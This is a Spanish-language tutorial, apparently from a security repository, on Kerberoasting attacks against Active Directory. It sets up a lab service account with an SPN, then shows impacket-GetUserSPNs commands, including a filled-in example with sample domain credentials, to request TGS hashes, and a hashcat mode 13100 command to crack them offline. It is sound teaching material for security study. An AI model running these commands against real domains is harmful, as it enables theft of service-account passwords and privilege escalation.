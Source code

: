 # Kerberoasting

# ¿Cómo surge un ataque Kerberoating?

---

En los entornos de Active Directory tenemos multiples objetos usuarios, grupos, etc.. Exiten entre los usuarios cuentas que se asocian a servicios, algunas como krbtgt vienen por defecto cuando instalamos Active Directory. Estas son cuentas de usuarios como cualquier otra con la peculiaridad de que están asociadas a un **SPN** (**Service Principal Name**) y no son usadas por personas para acceder al sistema sino que el mismo sistema las utiliza internamente para gestionar servicios.

Ahora bien ¿Qué es un ataque Kerberoasting y qué tiene que ver con esto que les he explicado?, un ataque Kerberoasting es un tipo de técnica que abusa de la funcionadidad de Kerberos para capturar el **Ticket Granting Service** **(TGS)** y crackearlo de manera offline, recordando este ticket está cifrado con la contraseña del servicio que se solicita, es decir, la contraseña de la cuenta que gestiona ese servicio.

El ataque se lleva a cabo durante el envío del `KRB_TGS_REP` que va desde el KDC al cliente.

![Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

> **Tomemos en cuenta lo siguiente:**

- Las cuentas destinadas para estos servicios suelen tener contraseñas débiles al no ser accedidas constantemente por algún usuario y para recordar más fácil se evita suelen usar contraseñas fáciles, por ende son fáciles de crackear.
- Estas cuentas suelen ser administradores para poder ejecutar dichos servicios y tareas concernientes.
> 

Viendolo así darnos cuenta de que es un ataque sencillo y potente a la vez, con la condición de que **debimos haber tenido acceso a una cuenta de usuario del dominio previamente.**

# Preparación de entorno

---

Primero vamos a crear una cuenta de usuario que será la encargada gestionar el servicio. 

- **Por medio al Powershell.**

```powershell
New-ADUser -Name "NOMBRE COMPLETO DE LA PERSONA" -GivenName "NOMBRE DE LA PERSONA" -SamAccountName "NOMBRE DE CUENTA", -UserPrincipalName "NOMBRE_DE_CUENTA@DOMINO" -Description "DESCRIPCION OPCIONAL" -AccountPassword(Get-Host -AsSecureString "Inserte la contraseña") -Enable $true
```

![Untitled](images/26bf7301-3d1e-466c-a85f-c4ed1225ef16.png)

En caso de querer borrar la cuenta puedes usar.

```powershell
Remove-ADUser -Identity "NOMBRE COMPLETO DE LA PERSONA"
```

- **Por medio a interfaz gráfica.**

Nos dirigimos a **Administrador del servidor > Herramientas > Usuarios y equipos de Active Directory**, damos clic derecho sobre **Users**, luego a **Nuevo > Usuario**.   

![Untitled](images/1575c984-f9b7-4f76-bebc-caea943fb568.png)

Luego hacemos clic en el icono de usuario en la barra superior. 

![Untitled](images/2e874867-ee7d-4d35-bc1b-c6acdd62e74f.png)

Indicamos la información correspondiente y damos clic en siguiente.

![Untitled](images/Untitled%201.png)

Luego colocamos una contraseña, marcamos las opciones **El usuario no puede cambiar la contraseña** y **La contraseña nunca expira**. Por último, damos clic en **Siguiente**.

![Untitled](images/Untitled%202.png)

Y finalizamos.

![Untitled](images/Untitled%203.png)

Como podemos ver, el usuario se ha creado satisfactoriamente.

![Untitled](images/0d03c82d-3952-4b37-a6c3-b04bf53db8a7.png)

Luego asociaremos la cuenta a un SPN (No importa si existe un servicio en ejecución o no). El SERVICE_NAME y el SERVER_MACHINE_NAME pueden ser cualquiera pero el USER debe ser el usuario que creamos anteriormente.

```powershell
setspn -S SERVICE_NAME/SERVER_MACHINE_NAME USER
```

![Untitled](images/ce8eefab-5d82-4eec-9a8f-7cf0dafc54f1.png)

# Explotación

---

Para solicitar el ticket TGS a las cuentas que tengan un SPN asociado vamos a utilizar un módulo de impacket llamado `GetUserSPNs`, el comando es el siguiente:

```powershell
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request
```

Sustituimos **DOMAIN** por el nombre del dominio, **USER** por el nombre del usuario previamente comprometido y **PASSWORD** por la contraseña del usuario. 

```powershell
impacket-GetUserSPNs cisco.local/ketti.andrea:K4ndrea -request
```

Y cómo podemos ver hemos obtenido el hash de la contraseña de este usuario.

![Untitled](images/Untitled%204.png)

Ahora **¡¡CRACKEEMOSLO!!**

# Crackeo de las contraseñas

---

Utilizaremos hashcat para crackear hash, el módulo para este hash del tipo Kerberos es el `13100`. Sustituimos HASH_FILE por la ruta de nuestro archivo hash y el DICTIONARY por la ruta del diccionario que vamos a usar para crackear el hash.

```bash
hashcat -a 0 -m 13100 HASH_FILE DICTIONARY -O
```

![Untitled](images/Untitled%205.png)
